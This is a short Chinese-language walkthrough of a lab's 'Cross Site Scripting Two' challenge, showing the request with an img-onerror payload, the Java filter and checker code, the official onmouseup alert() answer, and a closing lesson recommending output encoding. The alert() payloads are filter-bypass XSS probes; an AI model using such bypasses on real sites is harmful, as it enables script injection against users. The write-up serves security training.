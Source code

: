 # Cross Site Scripting Two(跨站脚本攻击 2)
 
## 题介绍
一个XSS攻击点，需要提交一个绕过检查的攻击语句 

## 功能实现 

请求数据包  
```
POST /challenges/t27357536888e807ff0f0eff751d6034bafe48954575c3a6563cb47a85b1e888 HTTP/1.1

searchTerm=%3Cimg+src%3D%23+onerror%3Dalert(1)+%3E&csrfToken=22792033228396859635296159069930202705

```
对应实现代码 src/main/java/servlets/module/challenge/XssChallengeTwo.java

```
String searchTerm = request.getParameter("searchTerm");
log.debug("User Submitted - " + searchTerm);
searchTerm = XssFilter.levelTwo(searchTerm);
log.debug("After Filtering - " + searchTerm);
String htmlOutput = new String();
if(FindXSS.search(searchTerm))  //调用过滤函数进行过滤 
{
	htmlOutput = "<h2 class='title'>" + bundle.getString("result.wellDone") + "</h2>" +
			"<p>" + bundle.getString("result.youDidIt") + "<br />" +
			bundle.getString("result.resultKey") + " <a>" +
				Hash.generateUserSolution(
						Getter.getModuleResultFromHash(getServletContext().getRealPath(""), levelHash
						), (String)ses.getAttribute("userName")
				)
			 +
			"</a>";
	log.debug(levelName + " completed");
}

public static boolean FindXSS.search (String xssString)
	{
		boolean xssDetected = false;
		log.debug("String to Search: " + xssString);
		
		//Need to tidy submitted string, similar to how a browser would when it interprets it
		Tidy tidy = new Tidy();
		tidy.setXHTML(true);  //进行过滤
		tidy.setQuiet(true);
		tidy.setShowWarnings(false);
		InputStream inputStream = new ByteArrayInputStream(xssString.getBytes());
		ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
		tidy.parseDOM(inputStream, outputStream);
		String tidyHtml = outputStream.toString().toLowerCase();
		try
		{
			outputStream.close();
			inputStream.close();
		}
		catch(Exception e)
		{
			log.error("Could not Cloud Tidy Input/Output Streams: " + e.toString());
		}
		
		
```
如果经过过滤的数据里面仍然存在可以正常执行的alert就认为成功 

## 解题步骤  

官方给的答案  
```
<input type="button" onmouseup="alert('XSS')"/>
```

## 总结  

试图针对XSS攻击的过滤时非常难的，非富文本的情况，尽可能进行编码输出 ，或使用公认的安全库进行操作  
